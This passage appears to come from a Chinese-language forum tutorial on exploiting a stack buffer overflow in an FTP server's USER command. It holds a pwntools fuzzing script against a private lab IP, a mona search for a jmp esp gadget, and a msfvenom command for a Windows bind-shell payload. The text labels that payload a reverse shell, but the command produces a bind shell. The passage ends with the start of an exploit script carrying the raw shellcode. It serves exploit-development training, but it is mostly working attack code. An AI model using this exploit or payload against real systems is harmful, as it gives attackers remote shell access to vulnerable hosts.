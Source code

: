 ```
"\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

io = remote("192.168.112.146", 21)
print(io.recv())
payload = flat("USER ", cyclic(2000), 'aaaa', bytearray)
io.sendline(payload)
print(io.recv())

```

#### 2.2 查找 jmp esp 命令

使进程跳转到栈中执行用 jmp esp 指令，查询加载模块中 jmp esp 的地址，机器码 \xff\xe4

```
!py mona find -s "\xff\xe4" -m

```

选择一个拥有可执行权限 EXECUTE 的地址

![](https://attach.52pojie.cn/forum/202104/13/155350ohkhpym165q1y255.png)

#### 2.3 生成 shellcode

利用 metasploit 生成 windows 反弹 shell 的 shellcode，开放本地端口 4444，排除坏数据’\x00\x0a\x0d’，以 py 格式输出，同时开头由 0x20 个 nop 作为滑板

```
msfvenom -p windows/shell_bind_tcp LPORT=4444 -b '\x00\x0a\x0d'  -n 0x20 -f py

```

![](https://attach.52pojie.cn/forum/202104/13/155840g28s6h8jzl2mzm2l.png)

#### 2.4 编写 exploit

```
from pwn import *
context(log_level="debug")

buf =  b""
buf += b"\x92\x40\x9f\x93\x91\x93\x41\x49\x4a\x37\x3f\x9b\x93"
buf += b"\x43\x4a\xf9\x4a\x91\x42\x9f\x49\x41\xf8\x9f\xf5\x4a"
buf += b"\x92\xfd\x98\x92\x93\x41\xba\x73\xe1\xfa\x7e\xdb\xdb"
buf += b"\xd9\x74\x24\xf4\x58\x31\xc9\xb1\x53\x83\xe8\xfc\x31"
buf += b"\x50\x0e\x03\x23\xef\x18\x8b\x3f\x07\x5e\x74\xbf\xd8"
buf += b"\x3f\xfc\x5a\xe9\x7f\x9a\x2f\x5a\xb0\xe8\x7d\x57\x3b"
buf += b"\xbc\x95\xec\x49\x69\x9a\x45\xe7\x4f\x95\x56\x54\xb3"
buf += b"\xb4\xd4\xa7\xe0\x16\xe4\x67\xf5\x57\x21\x95\xf4\x05"
buf += b"\xfa\xd1\xab\xb9\x8f\xac\x77\x32\xc3\x21\xf0\xa7\x94"
buf += b"\x40\xd1\x76\xae\x1a\xf1\x79\x63\x17\xb8\x61\x60\x12"
buf += b"\x72\x1a\x52\xe8\x85\xca\xaa\x11\x29\x33\x03\xe0\x33"
buf += b"\x74\xa4\x1b\x46\x8c\xd6\xa6\x51\x4b\xa4\x7c\xd7\x4f"
buf += b"\x0e\xf6\x4f\xab\xae\xdb\x16\x38\xbc\x90\x5d\x66\xa1"
buf += b"\x27\xb1\x1d\xdd\xac\x34\xf1\x57\xf6\x12\xd5\x3c\xac"
buf += b"\x3b\x4c\x99\x03\x43\x8e\x42\xfb\xe1\xc5\x6f\xe8\x9b"
buf += b"\x84\xe7\xdd\x91\x36\xf8\x49\xa1\x45\xca\xd6\x19\xc1"
buf += b"\x66\x9e\x87\x16\x88\xb5\x70\x88\x77\x36\x81\x81\xb3"
buf += b"\x62\xd1\xb9\x12\x0b\xba\x39\x9a\xde\x57\x31\x3d\xb1"
buf += b"\x45\xbc\xfd\x61\xca\x6e\x96\x6b\xc5\x51\x86\x93\x0f"
buf += b"\xfa\x2f\x6e\xb0\x15\xec\xe7\x56\x7f\x1c\xae\xc1\x17"
buf += b"\xde\x95\xd9\x80\x21\xfc\x71\x26\x69\x16\x45\x49\x6a"
buf += b"\x3c\xe1\xdd\xe1\x53\x35\xfc\xf5\x79\x1d\x69\x61\xf7"
buf += b"\xcc\xd8\x13\x08\xc5\x8a\xb0\x9b\x82\x4a\xbe\x87\x1c"
```